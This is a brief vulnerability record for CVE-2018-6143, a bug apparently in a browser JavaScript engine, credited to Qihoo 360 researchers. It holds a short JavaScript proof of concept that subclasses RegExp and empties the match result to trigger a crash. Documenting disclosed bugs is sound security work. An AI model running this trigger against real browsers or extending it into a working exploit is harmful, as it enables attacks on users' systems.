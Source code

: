 # CVE-2018-6143

- Report: May 2018
- Fix: May 2018
- Credit: Guang Gong of Alpha Team, Qihoo 360

## PoC

```javascript
class MyRegExp extends RegExp {
  exec(str) {
    const r = super.exec.call(this, str);
    if (r) r.length=0;
    return r;
  }
}
const result = 'a'.match(new MyRegExp('.', 'g'));
var crash = result[0].x;
```

## Reference

- [Issue](https://crbug.com/843022)
